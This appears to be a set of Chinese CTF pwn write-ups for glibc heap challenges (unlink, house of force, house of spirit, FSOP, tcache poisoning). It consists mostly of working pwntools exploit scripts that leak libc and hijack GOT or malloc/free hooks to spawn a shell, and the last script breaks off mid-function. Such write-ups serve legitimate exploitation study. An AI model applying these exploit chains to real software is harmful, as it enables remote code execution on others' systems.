Dump of assembler code for function __GI___libc_realloc:                               
   0x00007f15184fae80 <+0>:     endbr64                                                
   0x00007f15184fae84 <+4>:     push   r15                                             
   0x00007f15184fae86 <+6>:     push   r14                                             
   0x00007f15184fae88 <+8>:     push   r13                                             
   0x00007f15184fae8a <+10>:    push   r12                                             
   0x00007f15184fae8c <+12>:    mov    r12,rsi                                         
   0x00007f15184fae8f <+15>:    push   rbp                                             
   0x00007f15184fae90 <+16>:    mov    rbp,rdi                                         
   0x00007f15184fae93 <+19>:    push   rbx                                             
   0x00007f15184fae94 <+20>:    sub    rsp,0x18  
```

本地通过代码（远程把0xf1247改为0xf1147）。

```python
def exploit():
   add(0x18) #0
   add(0x18) #1
   add(0xa8) #2
   add(0x18) #3
   edit(0, 0x18+10, b'/bin/sh\0'+b'\0'*0x10+b'\x41')
   edit(2, 0x19, b'\0'*0x18+b'\x91')
   edit(3, 9, 'protected')

   free(1)
   add(0x38)
   edit(1, 0x20, p64(0)*3 + p64(0xb1))
   free(2)

   libc_base = u64(show(1))- libc.sym['__malloc_hook'] - 0x68
   print(hex(libc_base))
   malloc_hook = libc_base + libc.sym['__malloc_hook']
   realloc_hook = libc_base + libc.sym['realloc'] 
   one_gadget = libc_base + 0xf1247
   add(0xa8)

   add(0x28) #4
   add(0x28) #5
   add(0x68) #6
   add(0x28) #7
   edit(4, 0x28+10, b'\0'*0x28 + b'\xa1')
   free(5)
   add(0x98)

   edit(5, 0x30, p64(0)*5 + p64(0x71))
   free(6)
   edit(5, 0x38, p64(0x12345678)*4 + p64(0) + p64(0x71) + p64(malloc_hook - 0x23))

   add(0x68) #6
   add(0x68) #7
   edit(8, 0x1b, b'a'*11 + p64(one_gadget) + p64(realloc_hook+4))
   add(0x68)
```

### hitcon_stkof——unlink

unlink部分，fake_chunk构造公式如下：

- ptr指向堆栈数据区内：`fake_pre_size(0) + fake_size(1) + ptr-0x18 + ptr-0x10`

- 下一个chunk的`pre_size`为`fake_size(0)`，size为`size(0)`.

- 其中`(0)`与`(1)`即`prev_inuse`位。

leak puts部分，unlink修改控制指针为got表，而edit功能相当于修改got表内部的值。此时free(2)相当于`elf.plt['puts'](elf.got['puts'])`，从而打印`libc_puts`的地址以获得`libc_base`.

getshell与leak puts同理。

```python
def exploit():
   # unlink
   add(0x18) #1 0x602148
   add(0x38) #2
   add(0x88) #3
   add(0x18) #4
   fake_chunk = p64(0)+p64(0x31)+p64(buf_ptr-0x18)+p64(buf_ptr-0x10)
   fake_chunk = fake_chunk.ljust(0x30, b'\x00')+p64(0x30)+p64(0x90)
   edit(2, len(fake_chunk), fake_chunk)
   free(3)
   #leak puts
   payload = p64(0)*2+p64(elf.got['free'])+p64(elf.got['puts'])
   edit(2, len(payload), payload)
   edit(1, 8, p64(elf.plt['puts']))
   free(2)
   #get libc
   libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.symbols['puts']
   libc_sys = libc_base + libc.sym['system']
   #getshell
   edit(1, 8, p64(libc_sys))
   edit(4, 8, '/bin/sh\0')
   free(4)
```

### hitcontraining_bamboobox——unlink/house of force

这道题的创建与编辑的字符串会有后置0，算一个off by null（同时它也成了调试的障碍），然而更主要的漏洞是堆溢出。

unlink 解法（不使用提供的后门）：

```python
def exploit():
   buf_ptr = 0x6020d8
   add(0x18, 'aaaa') #0 0x6020c8
   add(0x38, 'bbbb') #1 0x6020d8
   add(0x88, 'cccc') #2
   add(0x18, '/bin/sh\0') #3
   fake_chunk = p64(0)+p64(0x31)+p64(buf_ptr-0x18)+p64(buf_ptr-0x10)
   fake_chunk = fake_chunk.ljust(0x30, b'\x00')+p64(0x30)+p64(0x90)
   edit(1, len(fake_chunk)-1, fake_chunk[:-1]) # fuck off the rear zero!
   free(2)
   
   payload = p64(0x18)+p64(elf.got['free'])+p64(0x38)+p64(buf_ptr-0x18)+p64(0x88)+p64(elf.got['puts'])
   edit(1, len(payload)-1, payload[:-1])
   edit(0, 7, p64(elf.plt['puts'])[:-1])
   free(2)

   libc_base = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.symbols['puts']
   libc_sys = libc_base + libc.sym['system']
   print(hex(libc_base))

   edit(0, 7, p64(libc_sys)[:-1])
   free(3)
```

由于是libc 2.27及以下，house of force的解法也是可以的，这题将`goodbye_message`的地址替换成`magic`的地址，从而在退出时读取了指定路径的flag：

```python
def exploit():
   magic = 0x400d49

   add(0x38, b'aaaa')
   edit(0, 0x40, b'c'*0x38+p64(0xffffffffffffffff))

   offset_to_heap_base = -(0x40+0x20)
   malloc_size = offset_to_heap_base - 0x8 - 0xf
   add(malloc_size, 'dddd')
   add(0x10, p64(0)+p64(magic))

   io.sendline('5')
```

关于0x8与0xf这两个常数的问题：

> 我们需要使得 `request2size`正好转换为对应的大小，也就是说，我们需要使得 ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK 恰好为 - 4112。首先，很显然，-4112 是  chunk 对齐的，那么我们只需要将其分别减去 SIZE_SZ，MALLOC_ALIGN_MASK 就可以得到对应的需要申请的值。
>
> https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-force/#1

```c
#ifndef INTERNAL_SIZE_T
#define INTERNAL_SIZE_T size_t
#endif

/* The corresponding word size */
#define SIZE_SZ                (sizeof(INTERNAL_SIZE_T))


/*
  MALLOC_ALIGNMENT is the minimum alignment for malloc'ed chunks.
  It must be a power of two at least 2 * SIZE_SZ, even on machines
  for which smaller alignments would suffice. It may be defined as
  larger than this though. Note however that code and data structures
  are optimized for the case of 8-byte alignment.
*/


#ifndef MALLOC_ALIGNMENT
# if !SHLIB_COMPAT (libc, GLIBC_2_0, GLIBC_2_16)
/* This is the correct definition when there is no past ABI to constrain it.

   Among configurations with a past ABI constraint, it differs from
   2*SIZE_SZ only on powerpc32.  For the time being, changing this is
   causing more compatibility problems due to malloc_get_state and
   malloc_set_state than will returning blocks not adequately aligned for
   long double objects under -mlong-double-128.  */

#  define MALLOC_ALIGNMENT       (2 *SIZE_SZ < __alignof__ (long double)      \
                                  ? __alignof__ (long double) : 2 *SIZE_SZ)
# else
#  define MALLOC_ALIGNMENT       (2 *SIZE_SZ)
# endif
#endif

/* The corresponding bit mask value */
#define MALLOC_ALIGN_MASK      (MALLOC_ALIGNMENT - 1)

/* The smallest size we can malloc is an aligned minimal chunk */
#define MINSIZE  \
  (unsigned long)(((MIN_CHUNK_SIZE+MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK))

/* pad request bytes into a usable size -- internal version */

#define request2size(req)                                         \
  (((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE)  ?             \
   MINSIZE :                                                      \
   ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)
```

### lctf2016_pwn200——house of spirit

> house of spirit的要点主要有以下几点：
>
> - 针对fastbin;
> - 构造的size域中`ISMMAP`位不能为1;
> - 必须将指针指向前一个chunk的data区域。
> - chunk与next chunk的间距为前一个chunk的size。

布置的栈帧结构如图（上面是`func 0x400a29`，中间是`func 0x400a8e`，下面是main函数）：



`func 0x400a8e`最后还有一个`getid`函数的返回值需要注意：

```assembly
.text:0000000000400B24 48 98                         cdqe
.text:0000000000400B26 48 89 45 C8                   mov     [rbp+var_38], rax
.text:0000000000400B2A B8 00 00 00 00                mov     eax, 0
.text:0000000000400B2F E8 F5 FE FF FF                call    sub_400A29
.text:0000000000400B2F
.text:0000000000400B34 C9                            leave
.text:0000000000400B35 C3                            retn
```

它将返回值存到了rbp-0x38的位置，也就是构造的next chunk的size域。

```python
def exploit():
   io.recvuntil('who are u?')
   io.send(shellcode.ljust(48 , b'a'))
   rbp = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\0')) # the start of line 13

   fake_addr = rbp - 0x90 # the start of line 4
   shellcode_addr = rbp - 0x50 # the start of line 8

   io.recvuntil('id ~~?')
   io.sendline('48') # store at [rbp - 0x38]
   io.recvuntil('money~')

   payload = p64(0)*5 + p64(0x40) 
   payload = payload.ljust(0x38, b'\0') + p64(fake_addr) # overlap the heap pointer to fake_addr
   io.send(payload) # fill the fake_chunk

   io.recvuntil('choice : ')
   io.sendline('2') # free the fake_chunk
   io.recvuntil('choice : ')
   io.sendline('1') 
   io.sendline('48') # alloc again, must be (fake_chunk size - 0x10) 

   payload = b'a'*0x18 + p64(shellcode_addr) # overflow 0x400a8e to shellcode_addr
   io.send(payload)

   io.sendline('3')
```

### houseoforange_hitcon_2016——unsortedbin attack+fsop

>  原题`edit`函数中，对长度不做检查，可以堆溢出。同时也对`add`与`edit`次数做了限制。

对于`FILE`结构体

```c
struct _IO_FILE {
  int _flags;       /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
#if defined _G_IO_IO_FILE_VERSION && _G_IO_IO_FILE_VERSION == 0x20001
  _IO_off64_t _offset;
# if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
# else
  void *__pad1;
  void *__pad2;
  void *__pad3;
  void *__pad4;

  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
#endif
};

```

想要调用`IO_overflow`需要满足几个条件

- `fp->_mode <= 0`
- `fp->_IO_write_ptr > fp->_IO_write_base`

因此可以通过`FILE[5] = 1, FILE[4] = 0`,`FILE[5]`后面全部置0来满足条件。

然后可以通过伪造`_IO_list_all`的vtable，并将`__overflow`位覆盖为`libc_sys`即可。


由于libc 2.27增加了对vtable的检测，该方法在libc 2.27失效。

```python
def exploit():
   add(0x18, 'a')
   payload = b'a'*0x18 + p64(0x21)
   payload += p32(1) + p32(0xddaa) + p64(0)
   payload += p64(0) + p64(0xfa1) # the offset must be mutiples of 0x1000
   edit(len(payload), payload)
   add(0x1000, 'b')
   add(0x408, 'c') # only largebin have fd_nextsize & bk_nextsize
   # the largebin's first 16 bytes are fd & bk (i.e. main_arena+88), the next 16 bytes are fd_nextsize & bk_nextsize
   show()
   libc_base = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x3c5163
   edit(16, 'd'*16)
   show()
   io.recvuntil('d'*16)
   heap_base = u64(io.recv(6).ljust(8, b'\x00')) - 0xc0
   log.success('libc_base: ' + hex(libc_base))
   log.success('heap_base: ' + hex(heap_base))
   libc_sys = libc_base + libc.sym['system']
   _IO_list_all = libc_base + libc.sym['_IO_list_all']

   payload = b'e'*0x408 + p64(0x21) 
   payload += b'a'*0x10
   fake_file = b'/bin/sh\0' + p64(0x60) # overflow the old_topchunk
   fake_file += p64(0) + p64(_IO_list_all-0x10) # unsorted bin attack
   fake_file += p64(0) + p64(1) # _IO_write_base & _IO_write_ptr
   fake_file = fake_file.ljust(0xd8, b'\x00') + p64(heap_base + 0x5c8) # make vtable point itself
   payload += fake_file
   payload += p64(0)*2 + p64(libc_sys) # position of __overflow
   edit(0x800, payload)
   
   io.sendline('1')
```

### axb_2019_heap——fmtstr+off by one+unlink

堆与格式化字符串的小综合。

> buu第三页完结撒花~

```python
def exploit():
   # leak elf and libc by fmtstr
   payload = '%11$p%15$p'
   io.sendline(payload)
   io.recvuntil('Hello, ')
   elf_base = int(io.recv(14), 16) - 0x116a - 28
   libc_base = int(io.recv(14), 16) - libc.sym['__libc_start_main'] - 240
   # modify chunk1's prev_inuse to trigger unlink: ptr = node_add - 0x18
   note_add = elf_base + 0x202060
   add(0, 0x98, 'x')
   add(1, 0x98, 'y')
   add(2, 0x98, 'z')
   fake_chunk = p64(0)+p64(0x91)+p64(note_add-0x18)+p64(note_add-0x10)
   fake_chunk = fake_chunk.ljust(0x90, b'\0')+p64(0x90)+p8(0xa0)
   edit(0, fake_chunk)
   dele(1)
   # modify global variable to hijack __free_hook and getshell
   free_hook = libc_base + libc.sym['__free_hook']
   libc_sys = libc_base + libc.sym['system']
   edit(0, p64(0)*3+p64(free_hook)+p64(0x98)+p64(note_add+0x18)+b'/bin/sh\0')
   edit(0, p64(libc_sys))
   dele(1)
```

### zctf2016_note2——int overflow+unlink

edit函数中存在整数溢出漏洞：

```c
unsigned __int64 __fastcall read_0(char *a1, __int64 len, char stop)
{
  char buf; // [rsp+2Fh] [rbp-11h] BYREF
  unsigned __int64 i; // [rsp+30h] [rbp-10h]
  ssize_t v7; // [rsp+38h] [rbp-8h]

  for ( i = 0LL; len - 1 > i; ++i ) // len=0
  {
    v7 = read(0, &buf, 1uLL);
    if ( v7 <= 0 )
      exit(-1);
    if ( buf == stop )
      break;
    a1[i] = buf;
  }
  a1[i] = 0;
  return i;
}
```

exp:

```python
def exploit():
   io.sendline('1')
   io.sendline('2')
   fake_chunk = p64(0)+p64(0xa1)+p64(buf-0x18)+p64(buf-0x10) # 0x90+0x20-0x10
   add(0x80, fake_chunk) #0
   add(0, '') #1, unlimited buffer size
   add(0x80, 'bbbbbbbb') #2

   dele(1)
   add(0, b'a'*0x10+p64(0xa0)+p64(0x90)) #1, chunk2's fake prev & size
   dele(2)  

   edit(0, b'a'*0x18+p64(0x602138)) # change the ptr address itself to 4th ptr (chunk1) 
   edit(0, p64(elf.got['puts']))

   libc_base = u64(show(3).ljust(8, b'\0')) - libc.sym['puts']
   log.success('libc_base: '+hex(libc_base))
   free_hook = libc_base + libc.sym['__free_hook']
   libc_sys = libc_base + libc.sym['system']

   edit(0, p64(free_hook))
   edit(3, p64(libc_sys))

   edit(0, ';sh\0') # there is a free func in edit func
```

### gyctf_2020_force——house of force+realloc_hook

开始直接把`__malloc_hook`覆盖成`one_gadget`,结果又炸了。（ogg天天出锅）

然后直接上`realloc`，随缘push了几个寄存器就好了。

可以参考这位师傅的文章来了解`one_gadget`可以利用的条件：http://taqini.space/2020/04/29/about-execve/

```python
def exploit():
   libc_base = add(0x200000, b'1') - 0x10 + 0x201000
   libc_sys = libc_base + libc.sym['system']
   libc_realloc = libc_base + libc.sym['realloc']
   one_gadget = libc_base+0x4527a

   top_addr = add(0x18, b'a'*0x18+p64(0xffffffffffffffff)) + 0x20
   offset = libc_base + libc.sym['__malloc_hook'] - top_addr
   malloc_size = offset - 0x18 - 0xf
   # malloc_size = offset - 0x8 - 0xf

   add(malloc_size, 'padding')
   add(0x18, b'a'*8+p64(one_gadget)+p64(libc_realloc+12)) # 13 16 is also ok
   # add(0x18, p64(one_gadget))

   io.sendline('1')
   io.sendline('24')
```

这里也可以得到验证：

```c
──────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
00:0000│ rsp 0x7ffca061dcb0 —▸ 0x7f5c811ef95f (realloc+591) ◂— mov    rbp, rax
01:0008│     0x7ffca061dcb8 —▸ 0x5620ac402060 ◂— '24\n36947911353\n'
02:0010│     0x7ffca061dcc0 ◂— 0x4
03:0018│     0x7ffca061dcc8 ◂— 0x0
04:0020│     0x7ffca061dcd0 —▸ 0x7ffca061de20 —▸ 0x7ffca061df50 —▸ 0x5620ac200cf0 ◂— push   r15
05:0028│     0x7ffca061dcd8 —▸ 0x5620ac2008f0 ◂— xor    ebp, ebp
06:0030│ rsi 0x7ffca061dce0 —▸ 0x7ffca061e030 ◂— 0x1
07:0038│     0x7ffca061dce8 ◂— 0x0
```

### zctf_2016_note3——int overflow+unlink+no show

跟note2差不多，先堆溢出后unlink，然后修改堆指针到`free.got`编辑它为`puts.plt`。

随便拿一个函数（如atoi）的got，free一下，泄露libc地址。最后`one_gadget`或`system`改`atoi.got`和`free.got`都可以。

```python
def exploit():
   # unlink part is omitted
   edit(0, b'a'*0x10+p64(buf-0x18)*2+p64(0)+p64(elf.got['free'])+p64(elf.got['atoi']))
   edit(2, p64(elf.plt['puts'])[:-1])
   dele(3)

   libc_base = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))-libc.sym['atoi']
   one_gadget = libc_base+0x4526a

   edit(2, p64(one_gadget)[:-1])
   dele(0)
```


## libc 2.27

### libc 2.27 uaf (buu-n1book: note)

存在明显的uaf与double free漏洞。

仍然是将tcache填满再进行普通的unsortedbin attack。

```python
def exploit():
   add(0x90, 'aaaaaaaa')
   add(0x90, 'bbbbbbbb')
   add(0x90, '/bin/sh\0')

   for i in range(7):
      free(0)
   free(1)
   show(1)
   addr = u64(p.recv(6).ljust(8, b'\0'))

   libc_base = addr - libc.sym['__malloc_hook'] - 112
   libc_sys = libc_base + libc.sym['system']
   libc_free = libc_base + libc.sym['__free_hook']

   edit(0, p64(libc_free))
   add(0x90, p64(libc_sys)) #??????
   add(0x90, p64(libc_sys))
   free(2)
```

或者使用tcache_dup:

```python
add(0x30,'aaa\n')#0
add(0x30,'bbb\n')#1
add(0x450,'xxxx\n')#2
add(0x30,'/bin/sh\n')#3
free(2)
addr = u64(show(2).ljust(8,'\x00'))

libc_base = addr - libc.sym['__malloc_hook'] - 112
libc_sys = libc_base + libc.sym['system']
libc_free = libc_base + libc.sym['__free_hook']

free(1)
free(0)
free(0)
edit(0,p64(free_hook)+'\n')
add(0x30,p64(system)+'\n')
add(0x30,p64(system)+'\n')
dele(3)
```


### ciscn_2019_n_3——heap fengshui

有些题解说这是fastbin attack，实际上这道题是tcache(libc 2.27)的堆风水，因此跟fastbin毫无关系。

```python
def exploit():
   add(0, 0x40, 'aaaa')
   add(1, 0x40, 'bbbb')
   free(0)
   free(1)
   add(2, 0xc, b'sh\0\0'+p32(elf.plt['system']))
   free(0)
```

exp的前四行过后，堆的排布如下：

```c
0x955e160       0x00000000      0x08048725      ....%...         <-- tcachebins[0x10][1/2]
0x955e168       0x0955e170      0x00000051      p.U.Q...
0x955e170       0x00000000      0x0000000a      ........         <-- tcachebins[0x30][1/2]
0x955e178       0x00000000      0x00000000      ........
0x955e180       0x00000000      0x00000000      ........
0x955e188       0x00000000      0x00000000      ........
0x955e190       0x00000000      0x00000000      ........
0x955e198       0x00000000      0x00000000      ........
0x955e1a0       0x00000000      0x00000000      ........
0x955e1a8       0x00000000      0x00000000      ........
0x955e1b0       0x00000000      0x00000000      ........
0x955e1b8       0x00000000      0x00000011      ........
0x955e1c0       0x0955e160      0x08048725      `.U.%...         <-- tcachebins[0x10][0/2]
0x955e1c8       0x0955e1d0      0x00000051      ..U.Q...
0x955e1d0       0x0955e170      0x0000000a      p.U.....         <-- tcachebins[0x30][0/2]
0x955e1d8       0x00000000      0x00000000      ........
0x955e1e0       0x00000000      0x00000000      ........
0x955e1e8       0x00000000      0x00000000      ........
0x955e1f0       0x00000000      0x00000000      ........
0x955e1f8       0x00000000      0x00000000      ........
0x955e200       0x00000000      0x00000000      ........
0x955e208       0x00000000      0x00000000      ........
0x955e210       0x00000000      0x00000000      ........
0x955e218       0x00000000      0x00021de9      ........         <-- Top chunk
```

因为每一次`add(0x40)`后（这里0x40可以改成其它数），都会`malloc(0xc)`与`malloc(0x40)`。此时重新`add(0xc)`，就能重新填充第一个和第三个tcache。

按照tcache的LIFO机制，此时再malloc两次会先填充第三个、再填充第一个tcache。

观察del函数：

```c
int do_del()
{
  int v0; // eax

  v0 = ask("Index");
  return (*(int (__cdecl **)(int))(records[v0] + 4))(records[v0]);
}
```

可见`add(0xc)`时将`rec_str_free()`，也就是`records[0] + 4`改为了`system()`的plt，而`records[v0]`作为了`sh`的地址。

从而在`free(0)`时相当于执行`system('sh')`，从而拿到了shell。

### npuctf_2020_easyheap——off by one+chunk overlap

```python
def exploit():
   add(0x18, 'a'*0x18) #0   
   add(0x18, 'b'*0x18) #1
   add(0x18, '/bin/sh\0') #2
   edit(0, 'x'*0x18+'\x41')
   free(1)
   add(0x38, p64(0)*3+p64(0x21)+p64(0x38)+p64(elf.got['free'])) #1
   show(1)

   libc_base = u64(io.recv(6).ljust(8, b'\x00')) - libc.sym['free']
   log.info('libc_base: ' + hex(libc_base))
   libc_sys = libc_base + libc.sym['system']

   edit(1, p64(libc_sys))
   free(2)
```

### hitcontraining_magicheap——unsorted bin attack

unsorted bin attack的核心是篡改bk指针为任意地址，使得该地址为一个很大的数。

```python
def exploit():
   add(0x500, 'aaaa')
   add(0x500, 'bbbb')
   add(0x500, 'cccc')
   free(1)
   edit(0, 0x520, b'a'*0x500 + p64(0) + p64(0x511) + p64(0) + p64(magic-0x10))

   add(0x500, '\0')
   io.sendline('4869')
```

### ciscn_2019_final_3——tcache dup

知识点不难，但是做起来比较棘手。

一个重要的点是如果tcache与unsortedbin指针相同，先free tcache，再free unsortedbin，从而两次malloc后可以分配到libc地址。

```python
def exploit():
   gift = add(0, 0x18, b'a')
   dele(0) # first free it as a tcache

   for i in range(1, 9):
      add(i, 0x68, b'a') # padding

   add(9, 0x78, b'v') # padding cause 0x20+0x70*8+0x80 = 0x420, to pass unsortedbin free check
   add(10, 0x28, b'/bin/sh\0') # avoid merging with top chunk 
   dele(9)
   dele(9) # tcache dup
   add(11, 0x78, p64(gift-0x10))
   add(12, 0x78, p64(gift-0x10))
   add(13, 0x78, p64(0)+p64(0x421)) # modify chunk0's size to unsortedbin  

   dele(0) # second free it as an unsortedbin

   add(14, 0x18, b'a')
   libc_base = add(15, 0x18, b'a') - libc.sym['__malloc_hook'] - 0x70
   print(hex(libc_base))
   libc_sys = libc_base + libc.sym['system']
   free_hook = libc_base + libc.sym['__free_hook']

   dele(5)
   dele(5)
   add(16, 0x68, p64(free_hook))
   add(17, 0x68, b'n1rvana_yyds')
   add(18, 0x68, p64(libc_sys)) # modify free_hook's content to system

   dele(10)
```

### hitcon_2018_children_tcache——off by null

经典夹心法。

```python
def exploit():
   add(0x438, 'a') #0
   add(0x38, 'b') #1
   add(0x4f8, 'c') #2, must be multiples of 0x100
   add(0x18, '/bin/sh\0') #3
   dele(0)
   dele(1)

   for i in range(9): # clear prev_size bit by bit
      add(0x38-i, b't'*(0x38-i)) #0
      dele(0)
   add(0x38, b't'*0x30+p64(0x440+0x40)) #0
   dele(2)

   add(0x438, b'libc') #1
   show(0)

   libc_base = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.sym['__malloc_hook'] - 0x70
   log.info('libc_base: ' + hex(libc_base))
   free_hook = libc_base + libc.sym['__free_hook']
   one_gadget = libc_base + ogg_offset

   add(0x38, 'd') #2
   dele(0)
   dele(2)
   add(0x38, p64(free_hook))
   add(0x38, p64(free_hook))
   add(0x38, p64(one_gadget))
   dele(3)
```

### gyctf_2020_signin——tcache&calloc

calloc 有以下特性：

- 不会分配 tcache chunk 中的 chunk 。

tcache 有以下特性：

- 在分配 fastbin 中的 chunk 时若还有其他相同大小的 fastbin_chunk 则把它们全部放入 tcache 中。

> https://www.cnblogs.com/luoleqi/p/13473995.html

```python
def exploit():
   for i in range(8):
      add(i)
   for i in range(8):
      dele(i)
   add(8) # give a blank to tcache
   edit(7, p64(ptr-0x10)) # it's in fastbin, so the calloc() will put ptr-0x10 in tcache bin
   backdoor() # and the target will become fd of 6th tcache bin
```



### ciscn_2019_final_5——overflow+unlink+no show

强行与zctf_2016_note3的做法对接。

- 逻辑漏洞导致堆溢出
- unlink
- 将`free.got`改为`puts.plt`
- 1/16的概率泄露堆地址
- 泄露unsortedbin free后的libc地址
- 将`free.got`改为`system`，getshell

> buu第四页完结撒花*★,°*:.☆(￣▽￣)/$:*.°★* 。

```python
def exploit():
   # heap overflow + fake_chunk
   add(16, 0x448, 'aaaaaaaa')
   add(1, 0x88, 'bbbbbbbb')
   add(2, 0x18, '\xc0')
   add(3, 0x18, '/bin/sh\0')
   fake_chunk = p64(0)+p64(0x431)+p64(buf-0x18)+p64(buf-0x10)
   edit(0, fake_chunk.ljust(0x430, b'\0')+p64(0x430)+p64(0x90))
   # unlink, buf[0] = 0x6020c8
   for i in range(4, 11):
      add(i, 0x88, 'xxxxxxxx')  
   for i in range(4, 11):
      dele(i)
   dele(1) 
   # make len[8] > 0
   for i in range(4, 9):
      add(i, 0x448, '\xc0')
   # leak heap_base
   edit(8, p64(0)*4+p64(buf-0x18)+p64(elf.got['free']-1)+p16(0x5812))
   edit(7, p64(0)+p64(elf.plt['puts']))
   dele(2)
   io.recvuntil(': ')
   tmp = io.recvline()[:-1]
   heap_base = u32(tmp.ljust(4, b'\0')) & 0xfffff000
   log.success('heap_base: '+hex(heap_base))
   # leak libc_base
   edit(8, p64(0)*4+p64(buf-0x18)+p64(elf.got['free']-1)+p64(heap_base+0x282))
   dele(2)
   io.recvuntil(': ')
   libc_base = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\0')) - (0x7fd7b3f920c0 - 0x7fd7b3ba6000)
   log.success('libc_base: '+hex(libc_base))
   # getshell
   edit(7, p64(0)+p64(libc_base+libc.sym['system']))
   dele(3)
```

### roarctf_2019_realloc_magic——realloc+stdout+tcache_poisoning

> 对于leak部分,如果一个题有show当然是最好的.
>
> 如果没有show的话但没开`PIE`,可以尝试把`free.got`改成`puts.plt/printf.plt`.
>
> 如果开了`PIE`的话,就只能`IO_stdout`了.

`realloc`的特性有:

- 当ptr == nullptr的时候，相当于malloc(size)， 返回分配到的地址
- 当ptr != nullptr && size == 0的时候，相当于free(ptr)，返回空指针
- 当size小于原来ptr所指向的内存的大小时，直接缩小，返回ptr指针。被削减的那块内存会被释放，放入对应的bins中去
- 当size大于原来ptr所指向的内存的大小时，如果原ptr所指向的chunk后面又足够的空间，那么直接在后面扩容，返回ptr指针；如果后面空间不足，先释放ptr所申请的内存，然后试图分配size大小的内存，返回分配后的指针

> 版权声明：本文为CSDN博主「Assassin\_\_is\_\_me」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
> 原文链接：https://blog.csdn.net/qq_35078631/article/details/126913140

关于`0xfbad1800`这个魔数的解释: https://n0va-scy.github.io/2019/09/21/IO_FILE/

```python
def exploit():
   realloc(0x18, 'a')
   realloc(0, '') # free it and set the NULL pointer
   realloc(0x88, 'b')
   realloc(0, '')
   realloc(0x28, '/bin/sh\0')
   realloc(0, '')
   realloc(0x88, 'bb')
   for i in range(7):
      dele()
   realloc(0, '') # unsorted bin

   realloc(0x18, 'a')
   # offset = int(input('input offset: '), 16) # debug
   offset = 1 # 1/16 brute force
   offset = (offset<<4)+7
   payload = p64(0)*3 + p64(0x61) + p8(0x60) + p8(offset) # _IO_2_1_stdout_

   realloc(0x48, payload) # tcache poisoning
   realloc(0, '')
   realloc(0x88, 'b')
   realloc(0, '')
   realloc(0x88, p64(0xfbad1800)+p64(0)*3+p8(0x58)) # some kind of magic qwq

   libc_base = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\0')) + (0x7ff04c342000 - 0x7ff04c72a2a0)
   log.success(message='libc_base: ' + hex(libc_base))
   free_hook = libc_base + libc.sym['__free_hook']
   libc_sys = libc_base + libc.sym['system']
   lock() # restart


   realloc(0x18, 'a') # the same method again
   realloc(0, '')
   realloc(0x98, 'b')
   realloc(0, '')
   realloc(0x28, '/bin/sh\0')
   realloc(0, '')
   realloc(0x98, 'bb')
   for i in range(7):
      dele()
   realloc(0, '')

   realloc(0x18, 'a')
